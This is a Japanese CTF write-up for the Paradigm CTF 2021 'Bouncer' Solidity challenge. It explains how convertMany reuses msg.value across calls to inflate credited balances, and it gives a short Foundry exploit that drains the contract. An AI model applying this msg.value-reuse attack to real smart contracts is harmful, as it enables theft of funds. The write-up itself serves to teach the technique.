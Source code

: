 # Paradigm CTF 2021: Bouncer

`Setup`コントラクトの`isSolved`関数を見ると、`bouncer`のbalanceを0にすれば良いことがわかる。

まず、`Setup`コントラクトの`constructor()`の処理を追っていく。
- `msg.value`は100 etherでないと駄目。
- `Bouncer`コントラクトを、valueは50 etherとして作成する。
- `Bouncer`コントラクトのコンストラクタでは、`owner`を`msg.sender`に設定する。
- `bouncer`の`enter`関数がWETHとETHそれぞれに対し呼ばれる。valueを1 ether、引数の`amount`を10 etherとしている。
- `enter`関数は、valueが1 etherであることを強制しており、`mapping(address => Entry[])`の`entries`変数に対して、`entries[msg.value]`に`Entry`構造体の要素を追加している。

`entries`とは？
- `function convert(address who, uint256 id) public payable`で使われている。
- `convert`関数は、`entry`で入金に対して、`function proofOfOwnership(ERC20Like token, address from, uint256 amount) public payable`を実行する。
- `proofOfOwnership`は、ETHであれば、`msg.value == amount`をチェックし、WETHであれば、`transferFrom`を`who`から`Bouncer`コントラクトに実行して、それが成功するかをチェックする。
- この`convert`関数を複数回実行する`convertMany`関数がある。

ここで`convertMany`関数の内部で実行する`convert`関数で`msg.value`を使いまわしでき、`tokens`に追加される`amount`をかさ増しできることがわかる。

```solidity
Bouncer bouncer = Bouncer(setup.bouncer());
uint initialBalance = address(bouncer).balance; 
uint amount = initialBalance + 2 ether;
bouncer.enter{value: 1 ether}(ETH, amount); 
bouncer.enter{value: 1 ether}(ETH, amount); 
vm.warp(block.timestamp + 1);
uint[] memory ids = new uint[](2);
ids[0] = 0;
ids[1] = 1;
bouncer.convertMany{value: amount}(playerAddress, ids); 
bouncer.redeem(ERC20Like(ETH), amount * 2);
```

Test:
```
forge test --match-contract BouncerExploitTest -vvvv
```